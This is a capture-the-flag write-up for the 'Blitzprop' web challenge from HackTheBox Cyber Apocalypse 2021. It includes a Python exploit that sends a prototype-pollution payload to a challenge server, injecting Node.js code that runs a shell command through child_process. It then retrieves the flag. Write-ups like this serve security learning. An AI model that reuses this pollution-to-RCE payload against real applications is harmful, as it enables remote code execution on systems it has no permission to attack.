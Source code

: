 ```yaml
---
name: Blitzprop (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Blitzprop (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Blitzprop

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=952s "HTB Cyber Apocalypse CTF 2021: Blitzprop")

## Challenge Description

> To exploit this, you need to use a ‘prototype pollution’ vulnerability within the flat library in order to gain RCE against the target. This requires a request to the server to 'pollute' the JavaScript objects, then a second request to trigger the payload. Overall, it was a really interesting box!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *
import requests

TARGET_URL = 'http://188.166.172.13:31177'

# https://blog.p6.is/AST-Injection/
result = requests.post(TARGET_URL + '/api/submit', json={
    "song.name": "The Goose went wild",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`cp flagz8gWv static/flag`)"
    }
})

flag = requests.get(TARGET_URL + '/static/flag').text
success(flag)
```
{% endcode %}

Flag: `CHTB{p0llute_with_styl3}`
